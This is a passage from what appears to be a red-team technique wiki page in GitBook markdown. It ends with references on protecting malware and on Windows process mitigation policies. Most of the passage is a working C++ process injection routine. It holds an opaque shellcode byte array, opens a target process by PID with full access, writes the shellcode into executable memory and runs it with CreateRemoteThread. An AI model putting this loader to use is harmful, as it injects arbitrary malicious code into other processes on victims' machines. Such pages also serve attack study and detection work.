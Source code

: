 ```cpp
        "\xe3\xc1\x8d\x05\x5c\x71\xe2\x6b\xea\xf8\xef\xb8\xdd\xea\x61"
        "\xb4\x22\x80\xcb\xe5\xe4\x57\x5a\xad\xd0\x14\x41\x90\xb8\xad"
        "\x94\x64\x5d\xae\x2b\x90\xe1\xec";

    HANDLE processHandle;
    HANDLE remoteThread;
    PVOID remoteBuffer;

    printf("Injecting to PID: %i", atoi(argv[1]));
    processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
    remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
    remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
    CloseHandle(processHandle);
}
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://blog.xpnsec.com/protecting-your-malware/" caption="" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-setprocessmitigationpolicy" caption="" %}

